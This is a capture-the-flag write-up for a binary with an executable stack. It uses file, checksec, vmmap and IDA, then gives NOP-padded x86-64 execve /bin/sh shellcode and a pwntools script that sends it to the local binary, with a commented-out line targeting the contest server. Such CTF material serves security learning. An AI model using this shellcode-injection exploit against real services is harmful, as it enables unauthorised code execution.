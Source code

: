 # Description:
Thank you for joining contest

# Solution

First, use `file` command in Linux is used to determine the type of a file.

>ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8f9fe6b3346b0425d130a145cfdd72f8fbc73d18, not stripped

Second, we need to use `checksec` to check various security features of executable files as bellow.

![image](https://github.com/N1GHT-F4LL/CTF/assets/60804710/06e2d33f-fab3-4e53-b1bb-28301afd7e03)

With security features mostly turned off making this exploit easier.

Let's use `vmmap` to view memory mappings and we can see that stack have full permision rwx.


![image](https://github.com/N1GHT-F4LL/CTF/assets/60804710/6a34aca7-df45-47d8-92f4-e242b63144c6)


Use IDA64 to decompile the binary file and we can see 1 function name `getflag()`

![image](https://github.com/N1GHT-F4LL/CTF/assets/60804710/3b869e3d-f603-4959-a7ec-f02f8349e07e)

This function is a program that prompts the user for their name and feedback an contest. If the length of the feedback is less than or equal to `39 characters`, it displays an error message; otherwise, it prints a thank you message and calls getflag() with the feedback as its argument. 

Let's check in detail

![image](https://github.com/N1GHT-F4LL/CTF/assets/60804710/4db346c1-904b-4cfe-810a-6d6baa6276e2)

The vulnerability in this function is that it does not perform any checks on the given function pointer before calling it. This means an we can provide a malicious function pointer to getflag() and execute arbitrary code. To exploit this, an we could overwrite the providing malicious code as input that can then be executed when the getflag() function returns when they call getflag() and we can `Reverse shell` to find flag.

Remember that we need to have shellcode at least 39 bytes long.

With easy way, we will include a [shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode) in x86-64 architecture. I use [Linux/x86-64 - Execute /bin/sh - 27 bytes](https://shell-storm.org/shellcode/files/shellcode-806.html) and add some [NOP Byte Code](https://en.wikipedia.org/wiki/NOP_(code)) is `0x90` so that it is enough for a minimum of 39 bytes.

With more difficulty, we can find somewhere a shell code longer than 39 bytes without using NOP Bytes.

My ShellCode bellow

> \x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05

Then we just need to write code with pwn in python which can send the shellcode to the server and use some Linux Command to looking for flag at server with interactive mode.

``` python
from pwn import *

try:
	p = process('./pwn2')
	#p = remote('139.180.137.100', 1338)
	res = p.recvuntil('Give me your name:')
	p.sendline(b'a')
	shell =b'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
	res = p.recvuntil('What do you think about the contest (feedback) ?')
	p.sendline(shell)
	p.interactive()
except Exception as e:
    print("An error occurred:", e)
finally:
    p.close()
```
